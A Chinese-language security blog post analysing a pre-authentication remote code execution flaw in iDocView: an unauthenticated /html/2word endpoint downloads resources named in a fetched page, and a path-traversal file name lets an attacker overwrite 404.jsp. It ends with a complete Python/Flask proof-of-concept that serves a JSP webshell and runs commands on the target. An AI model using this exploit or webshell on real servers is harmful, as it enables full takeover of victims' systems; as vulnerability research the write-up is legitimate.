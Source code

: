 ```yaml
---
title: IDocView前台远程代码执行漏洞分析
date: 2023-12-04 10:26:29
tags: ['奇安信攻防社区', '漏洞分析']
---
```


IDocView前台远程代码执行漏洞分析细节
<meta name="referrer" content="no-referrer"/> 
<!--more--> 
<div class="markdown-body"><p blockindex="0"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-bc20688be4c26afbeeb5ed389491b63a660386dc.png" alt="" referrerpolicy="no-referrer"></p>
<p blockindex="1">昨天注意到一个IDocView系统的漏洞被披露了，发现是几个月之前审计过的漏洞，这里和师傅们分享一下当时的漏洞分析记录。</p>
<h2 blockindex="2">影响范围</h2>
<p blockindex="3">iDocView &lt; 13.10.1_20231115</p>
<h2 blockindex="4">漏洞原理</h2>
<p blockindex="5">漏洞原理大概就是使用未过滤的接口进行远程文件下载，会对传入的url进行下载，并且会解析url对应源码标签中的链接标签并且进行下载，而标签链接解析下载的过程中存在路径过滤缺陷导致任意文件上传。</p>
<h2 blockindex="6">过滤检查</h2>
<p blockindex="7">IDocView通过Tomcat+Spring-Mvc布置在Windows中，请求接口过滤通过继承于org.springframework.web.servlet.handler.HandlerInterceptorAdapter的com.idocv.docview.interceptor.ViewInterceptor进行定义，</p>
<p blockindex="8">com.idocv.docview.interceptor.ViewInterceptor#preHandle 是任何请求都会调用的过滤函数，主要会对文件预览、文件上传、文件下载功能接口进行身份验证。</p>
<p blockindex="9">且com.idocv.docview.interceptor.ViewInterceptor#thdViewCheckSwitch=false 不会进行upload和download接口进行身份验证。</p>
<p blockindex="10"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-1b7cde22fa9f11fbe65f709d5eb52a3d5ad686f5.png" alt="" referrerpolicy="no-referrer"></p>
<h2 blockindex="11">漏洞入口</h2>
<p blockindex="12">/html/2word对应的入口函数为com.idocv.docview.controller.HtmlController#toWord</p>
<p blockindex="13"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-a846c6f5159ecba7df2c96a3172ee310f3cc0b42.png" alt="" referrerpolicy="no-referrer"></p>
<p blockindex="14">函数大致流程如下：</p>
<ol blockindex="15">
<li>计算url的md5值作为子目录名</li>
<li>判断子目录是否存在，不存在则根据url链接下载资源</li>
<li>判断是否存在文件md5Url + ".docx"是否存在</li>
<li>不存在则通过pandoc.exe生成md5Url + ".docx"文件</li>
<li>返回md5Url + ".docx"文件</li>
</ol>
<p blockindex="16">其中关键函数为下载资源的com.idocv.docview.util.GrabWebPageUtil#downloadHtml</p>
<p blockindex="17"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-f1b734d5817f5c50fdc200e66425f146f34aaf2f.png" alt="" referrerpolicy="no-referrer"></p>
<p blockindex="18">传入url到downloadHtml函数后首先是会对getWebPage进行文件下载</p>
<p blockindex="19">（函数较长所以分几个部分截图了）</p>
<p blockindex="20">首先是进行一些请求的header设置</p>
<p blockindex="21"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-62c8d1347a88595dff9bba54c49ea84e07fd9d31.png" alt="" referrerpolicy="no-referrer"></p>
<p blockindex="22">下面会下载url文件源码内容后进行一些格式解析处理后写入到url链接中指定的文件名中</p>
<p blockindex="23"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-780263af0ef72c4f64a781f9b64a8edd1b976ff8.png" alt="" referrerpolicy="no-referrer"></p>
<p blockindex="24">看到这里之前审计的时候发现有asp、aspx、php这些可能为webshell格式的过滤而没有过滤jsp后缀。传入第二个参数中的outputDir指定了目录，而这个目录并不能被我们直接通过url指定；同时下载的文件名在第三个参数指定为index.html，所以下载文件的位置并不能给我们指定。</p>
<p blockindex="25"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-08f9074547208b5655dbd1c58b875ef7a378b1f5.png" alt="" referrerpolicy="no-referrer"></p>
<p blockindex="26">问题并不是出在第一次执行的getWebPage</p>
<h2 blockindex="27">远程文件下载</h2>
<p blockindex="28">com.idocv.docview.util.GrabWebPageUtil#getWebPage(java.net.URL, java.io.File, java.lang.String)</p>
<p blockindex="29">在第一次下载url内容的时候并不能进行利用，但是在下面再次调用了getWebPage函数</p>
<p blockindex="30"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-351f30bd584f6c112847841842404be5d48fca61.png" alt="" referrerpolicy="no-referrer"></p>
<p blockindex="31">这里的双参数和三参数的getWebPage是一样的，双参数将最后一个保存文件名进行指定，如果第三个参数未指定，则会根据url获得最后一个/之后的字符串作为文件名</p>
<pre blockindex="32"><code class="hljs language-Java"><span class="hljs-function"><span class="hljs-keyword">public</span> <span class="hljs-keyword">static</span> <span class="hljs-keyword">void</span> <span class="hljs-title">getWebPage</span><span class="hljs-params">(URL obj, File outputDir)</span> </span>{
   getWebPage(obj, outputDir, (String)<span class="hljs-keyword">null</span>);
}
</code></pre>
<pre blockindex="33"><code class="hljs language-Java">String path = obj.getPath();
String filename = path.substring(path.lastIndexOf(<span class="hljs-number">47</span>) + <span class="hljs-number">1</span>);
<span class="hljs-keyword">if</span> (filename.equals(<span class="hljs-string">"/"</span>) || filename.equals(<span class="hljs-string">""</span>)) {
   filename = <span class="hljs-string">"default.html"</span>;
}
System.out.println(filename);
<span class="hljs-keyword">if</span> (StringUtils.isNotBlank(fileName)) {
   filename = fileName;
}
</code></pre>
<p blockindex="34">而之后在这个For循环中的链接是源自于第一次从链接中下载的页面源码，并且从中解析出img、link、script中的指定加载的远程连接文件，且解析后的链接会加入到GrabUtility.<em>filesToGrab中。</em></p>
<p blockindex="35">录入访问链接<a href="http://host:port/links.html%E8%BF%94%E5%9B%9E%E7%9A%84%E5%86%85%E5%AE%B9%E4%B8%BA%EF%BC%9A">http://host:port/links.html返回的内容为：</a></p>
<pre blockindex="36"><code class="hljs language-Java">&lt;img src=<span class="hljs-string">"https://host:port/1.png"</span>&gt;
</code></pre>
<p blockindex="37">那么1.png图片就会下载于md5为名的子目录下：</p>
<p blockindex="38"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-3baa001ca9833453a9bdb251644a0c7c6319b981.png" alt="" referrerpolicy="no-referrer"></p>
<h2 blockindex="39">Poc构建</h2>
<p blockindex="40">到这里攻击流程其实就已经可以进行webshell文件上传了：</p>
<ol blockindex="41">
<li>
<p>web服务器里面存放一个links.html文件写入带着目录穿越路径的url链接：</p>
<pre><code class="hljs language-Java">&lt;link href=<span class="hljs-string">"http://127.0.0.1:5050/..\..\..\..\docview\\WEB-INF\\views\\404.jsp"</span>&gt;
</code></pre>
</li>
<li>
<p>访问<code>/docview/html/2word</code>传入url=<a href="http://server-host/links.html">http://server-host/links.html</a></p>
</li>
<li>
<p>受害服务器下载links.html文件并且解析出link 标签的下载文件路径<code>..\..\..\..\docview\\WEB-INF\\views\\404.jsp</code>并且将文件名通过目录拼接的方式保存到本地</p>
</li>
<li>
<p>web服务器里面定义路由，当访问<code>..\..\..\..\docview\\WEB-INF\\views\\404.jsp</code>路径的时候，返回一个webshell文件</p>
</li>
<li>
<p>最后访问一个任意IdocView不存在的路由就会加载覆盖后的404.jspwebshell文件</p>
</li>
</ol>
<pre blockindex="42"><code class="hljs language-Java"><span class="hljs-keyword">import</span> random
<span class="hljs-keyword">import</span> threading
<span class="hljs-keyword">import</span> time
<span class="hljs-keyword">import</span> requests
from flask <span class="hljs-keyword">import</span> Flask, request
app = Flask(__name__)
raw_404_page=<span class="hljs-string">"404 Page Text"</span>
jsp_webshell = <span class="hljs-string">""</span><span class="hljs-string">"
&lt;!-- request with Parameter 'cmd'--&gt;
&lt;%@ page import="</span>java.io.*<span class="hljs-string">" %&gt;
&lt;%
   String cmd = request.getParameter("</span>cmd<span class="hljs-string">");
   String output = "</span><span class="hljs-string">";
   if(cmd != null) {
  String s = null;
  try {
 Process p = Runtime.getRuntime().exec(cmd,null,null);
 BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
 while((s = sI.readLine()) != null) { output += s+"</span>&lt;/br&gt;<span class="hljs-string">"; }
  }  catch(IOException e) {   e.printStackTrace();   }
   }
%&gt;
&lt;%=output %&gt;"</span><span class="hljs-string">""</span>
<span class="hljs-meta">@app</span>.route(<span class="hljs-string">'/&lt;path:path&gt;'</span>)
<span class="hljs-function">def <span class="hljs-title">serve_content</span><span class="hljs-params">(path)</span>:
<span class="hljs-keyword">if</span> "jsp" in request.url:
return raw_404_page + jsp_webshell
elif "links" in request.url:
return  f"""&lt;link href</span>=<span class="hljs-string">"http://127.0.0.1:5050/..\\..\\..\\..\\docview\\WEB-INF\\views\\404.jsp"</span>&gt;<span class="hljs-string">""</span><span class="hljs-string">"
else:
return 'who are you???'
def exp(host):
time.sleep(5)
url = host + '/html/2word'
r = requests.post(url,
  data={
  "</span>url<span class="hljs-string">": f"</span>http:<span class="hljs-comment">//127.0.0.1:5050/links.html_{random.Random().randint(0, 1000000)}"</span>
  })
print(r.status_code)
print(r.text)
requests.get(host+<span class="hljs-string">"/xxx?cmd=calc"</span>)
<span class="hljs-keyword">if</span> __name__ == <span class="hljs-string">'__main__'</span>:
threading.Thread(target=exp,args=(<span class="hljs-string">"http://192.168.92.1:8080/docview"</span>,)).start()
app.run(port=<span class="hljs-number">5050</span>,debug=True,host=<span class="hljs-string">'0.0.0.0'</span>)
</code></pre>
<p blockindex="43"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-687945e158d353471e8a16424d6beff5fe3e7cfc.png" alt="" referrerpolicy="no-referrer"></p>
<p blockindex="44">这是执行命令前访问/xxx?cmd=whoami的结果</p>
<p blockindex="45"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-13621abcdd18891fc53c073e7391ab9bf4b1d0d8.png" alt="" referrerpolicy="no-referrer"></p>
<p blockindex="46">执行脚本后404页面变化执行命令输出回显</p>
<p blockindex="47"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-dc5637e07644b58b1d4e0090d72b4c15646b1d9c.png" alt="" referrerpolicy="no-referrer"></p><!--1--></div><br>
<div class="declare">
      <ul class="post-copyright">
        <li>
          <strong>本文作者：</strong>
          markin
        </li>
        <li>
          <strong>本文来源：</strong>
          <a href="https://forum.butian.net/" title="本文来源" target="_blank">奇安信攻防社区</a>
        </li>
        <li>
          <strong>原文链接：</strong>
          <a href="https://forum.butian.net/share/2598" title="原文链接" target="_blank">https://forum.butian.net/share/2598</a>
        </li>
        <li>
          <strong>版权声明： </strong>
          除特别声明外，本文各项权利归原文作者和发表平台所有。转载请注明出处！
        </li>
      </ul>
</div>
    